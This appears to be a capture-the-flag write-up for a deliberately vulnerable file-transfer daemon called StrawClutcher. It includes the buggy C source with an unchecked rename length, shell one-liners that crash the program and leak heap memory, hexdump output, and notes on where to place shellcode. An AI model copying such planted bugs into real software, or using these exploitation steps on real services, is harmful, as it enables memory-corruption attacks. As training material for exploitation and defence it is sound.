 StrawClutcher 

StrawClutcher is a reference to [this paper](http://phrack.org/issues/63/14.html)

To get code execution, you need to shift rsp to overwrite something useful.

```python
for x in range(0xfffffffffffff000, 0x10000000000000000, 16):
  print x
```

and 

```sh
for i in `cat input` ; do (printf "PUT def.ext $i\n"; perl -e 'print "\xcc" x 8192') | timeout -k 1 1 ./StrawClutcher  ; done
```

should (I guess, subject to compiler, possibly stack level aslr layout) give
you a crash in main, retting to 0xcccccccccccccccc

But controlling RIP isn't too useful at this stage - pie, aslr, ssp, etc, so...
info leak time!

```c
struct filedata {
        char filename[FILENAMESIZE];
        long length;
        unsigned char *data;
        int mmap;

        SLIST_ENTRY(filedata) entries;
};
```

```c
                fn1 = strndup(id, (int)(client - id - 1));
                if(strlen(fn1) >= 32) {
                        printf("300 Filename too long.\n");
                        return true;
                }

                fn2 = strndup(client, (int)(YYMARKER - client));
                if(strlen(fn1) >= 32) {
                        // Buggy here. Should be fn2
                        printf("300 Destination filename too long.\n");
                        return true;
                }

                // Check if filename exists in records

                ret = rename_file(fn1, fn2);

...


/*
 * This section causes the fdp->length section to be overwritable, thus
 * modifying the "length" field, which then causes an info leak to be
 * possible.
 */

static bool rename_file(char *source, char *destination)
{
        struct filedata *fdp;

        SLIST_FOREACH(fdp, &head, entries) {
                if(strcmp(fdp->filename, source) == 0) {
                        // Below is needed to avoid memcpy_chk and SSP.
                        __builtin_memcpy(fdp->filename, destination, strlen(destination));

                        printf("200 Filename renamed\n");
                        return true;
                }
        }

        printf("400 File not found\n");
        return true;
}
```

You can cause a stack info leak by overwriting the length value - doesn't
necessarily need to be precisely controlled, we just need a heap pointer
that we can use to calculate where our shellcode is.

```sh
$ (printf "PUT abc.ext 12\n"; perl -e 'print "x" x 12'; printf "LIST\nRENAME abc.ext DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD.ext\nLIST\nRETR DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD.ext\n";) | ./StrawClutcher  | xxd
00000000: 3230 3020 5761 7465 7244 7261 676f 6e20  200 WaterDragon 
00000010: 4669 6c65 2054 7261 6e73 6665 7220 4461  File Transfer Da
00000020: 656d 6f6e 0a73 7a20 6973 2031 320a 3230  emon.sz is 12.20
00000030: 3020 456e 7472 7920 6372 6561 7465 640a  0 Entry created.
00000040: 3233 312e 2046 696c 6573 2061 7320 666f  231. Files as fo
00000050: 6c6c 6f77 730a 3233 322e 2022 6162 632e  llows.232. "abc.
00000060: 6578 7422 202d 2031 3220 6279 7465 730a  ext" - 12 bytes.
00000070: 3233 3120 446f 6e65 210a 3230 3020 4669  231 Done!.200 Fi
00000080: 6c65 6e61 6d65 2072 656e 616d 6564 0a32  lename renamed.2
00000090: 3331 2e20 4669 6c65 7320 6173 2066 6f6c  31. Files as fol
000000a0: 6c6f 7773 0a32 3332 2e20 2244 4444 4444  lows.232. "DDDDD
000000b0: 4444 4444 4444 4444 4444 4444 4444 4444  DDDDDDDDDDDDDDDD
000000c0: 4444 4444 4444 4444 4444 4444 4444 4444  DDDDDDDDDDDDDDDD
000000d0: 2e65 7874 2220 2d20 3131 3620 6279 7465  .ext" - 116 byte
000000e0: 730a 3233 3120 446f 6e65 210a 3230 3020  s.231 Done!.200 
000000f0: 4669 6c65 2064 6f77 6e6c 6f61 6420 7374  File download st
00000100: 6172 7465 642e 2050 7265 7061 7265 2074  arted. Prepare t
00000110: 6f20 6765 7420 3131 3620 6279 7465 730a  o get 116 bytes.
00000120: 7878 7878 7878 7878 7878 7878 0000 0000  xxxxxxxxxxxx....
00000130: 0000 0000 0000 0000 4100 0000 0000 0000  ........A.......
00000140: 4444 4444 4444 4444 4444 4444 4444 4444  DDDDDDDDDDDDDDDD
00000150: 4444 4444 4444 4444 4444 4444 4444 4444  DDDDDDDDDDDDDDDD
00000160: 4444 4444 442e 6578 7400 0000 0000 0000  DDDDD.ext.......
00000170: 0000 0000 0000 0000 c1fa 0100 0000 0000  ................
00000180: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000190: 0000 0000 3230 3020 4461 7461 2074 7261  ....200 Data tra
000001a0: 6e73 6665 7272 6564 210a 3230 3020 5468  nsferred!.200 Th
000001b0: 616e 6b20 796f 752c 2068 6176 6520 6120  ank you, have a 
000001c0: 6e69 6365 2064 6179 210a                 nice day!.

```

In this above example, we can leak 116 - 12 bytes of data from the heap.

Now that we know where the heap is, where do we store the shellcode?

Intended location is to use the input buffer, as we can store the most
things there without restrictions..

```c
static bool process_input()
{
        static char *linebuf, *p;
        const char *YYMARKER, *YYCURSOR, *id, *client;

        if(linebuf == NULL) {
                linebuf = malloc(512);
                linebuf[511] = 0;
        }

        if(fgets(linebuf, 511, stdin) == NULL) return false;
        p = strchr(linebuf, '\n');
        if(p) *p = 0;
        p = strchr(linebuf, '\r');
        if(p) *p = 0;

```

Which makes our input

WHATEVER COMMAND\r<binary shellcode>\n

hopefully it's relatively obvious to people. otherwise they might
think they need a-zA-Z0-9 shellcode, etc.


